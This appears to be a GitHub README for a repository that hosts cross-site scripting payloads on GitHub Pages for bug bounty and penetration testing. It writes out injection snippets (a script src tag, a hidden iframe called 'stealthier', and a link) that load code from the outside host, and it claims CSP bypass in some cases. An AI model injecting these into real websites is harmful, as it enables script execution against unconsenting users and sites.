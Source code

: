# XSS Payload Host (GitHub Pages)

This repository hosts XSS payloads via GitHub Pages. It is useful for security researchers, bug bounty hunters, or penetration testers to demonstrate and execute Cross-Site Scripting (XSS) payloads on vulnerable websites.

## Features

- Hosts external XSS scripts via GitHub Pages
- Bypasses CSP in some cases (depending on target site)
- Works with `<script src>`, `<iframe>`, and `<img>`-based injection
- Easy to use for PoC (Proof-of-Concept)

---

##  How to Use

Use This URL for XSS ---> ![https://yogsec.github.io/xss-test/](https://yogsec.github.io/xss-test/)

Use this GitHub Pages setup to host my XSS payloads for testing real-world vulnerabilities during bug bounty hunting. When I find a vulnerable parameter or input field that allows HTML/JS injection, I inject a <script src> or <iframe> pointing to my hosted payload like

<script src="https://yogsec.github.io/xss-test/"></script>

Or, for stealthier attacks or to bypass certain restrictions, I use:

<iframe src="https://yogsec.github.io/xss-test/" style="display:none"></iframe>

Or

<a href="https://yogsec.github.io/xss-test/">Click Here</a>
